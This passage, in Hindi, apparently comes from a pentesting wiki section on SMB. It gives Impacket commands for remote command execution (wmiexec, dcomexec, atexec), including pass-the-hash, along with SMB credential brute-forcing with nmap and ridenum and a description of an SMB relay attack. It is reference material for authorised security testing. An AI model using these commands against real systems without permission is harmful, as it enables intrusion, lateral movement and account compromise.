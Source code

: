 ### [wmiexec](../../windows-hardening/lateral-movement/wmiexec.md)/dcomexec

चुपचाप एक कमांड शेल को निष्पादित करें बिना डिस्क को छुए या एक नई सेवा चलाए **port 135** के माध्यम से DCOM का उपयोग करके।\
**kali** में यह /usr/share/doc/python3-impacket/examples/ पर स्थित है।
```bash
#If no password is provided, it will be prompted
./wmiexec.py [[domain/]username[:password]@]<targetName or address> #Prompt for password
./wmiexec.py -hashes LM:NT administrator@10.10.10.103 #Pass-the-Hash
#You can append to the end of the command a CMD command to be executed, if you dont do that a semi-interactive shell will be prompted
```
**पैरामीटर**`-k` का उपयोग करके आप **केरबोस** के खिलाफ प्रमाणीकरण कर सकते हैं बजाय **NTLM** के।
```bash
#If no password is provided, it will be prompted
./dcomexec.py [[domain/]username[:password]@]<targetName or address>
./dcomexec.py -hashes <LM:NT> administrator@10.10.10.103 #Pass-the-Hash
#You can append to the end of the command a CMD command to be executed, if you dont do that a semi-interactive shell will be prompted
```
### [AtExec](../../windows-hardening/lateral-movement/atexec.md)

SMB के माध्यम से टास्क शेड्यूलर के जरिए कमांड निष्पादित करें (_\pipe\atsvc_ का उपयोग करके)।\
**kali** में यह /usr/share/doc/python3-impacket/examples/ पर स्थित है।
```bash
./atexec.py [[domain/]username[:password]@]<targetName or address> "command"
./atexec.py -hashes <LM:NT> administrator@10.10.10.175 "whoami"
```
## Impacket संदर्भ

[https://www.hackingarticles.in/beginners-guide-to-impacket-tool-kit-part-1/](https://www.hackingarticles.in/beginners-guide-to-impacket-tool-kit-part-1/)

## **यूजर्स क्रेडेंशियल्स का ब्रूटफोर्स**

**यह अनुशंसित नहीं है, यदि आप अधिकतम अनुमत प्रयासों से अधिक जाते हैं तो आप एक खाता ब्लॉक कर सकते हैं**
```bash
nmap --script smb-brute -p 445 <IP>
ridenum.py <IP> 500 50000 /root/passwds.txt #Get usernames bruteforcing that rids and then try to bruteforce each user name
```
## SMB relay attack

यह हमला Responder टूलकिट का उपयोग करके **SMB प्रमाणीकरण सत्रों** को आंतरिक नेटवर्क पर **कैप्चर** करता है, और उन्हें **लक्ष्य मशीन** पर **रिले** करता है। यदि प्रमाणीकरण **सत्र सफल** होता है, तो यह स्वचालित रूप से आपको एक **सिस्टम** **शेल** में ले जाएगा।\
[**इस हमले के बारे में अधिक जानकारी यहाँ।**](../../generic-methodologies-and-resources/pentesting-network/spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks.md)
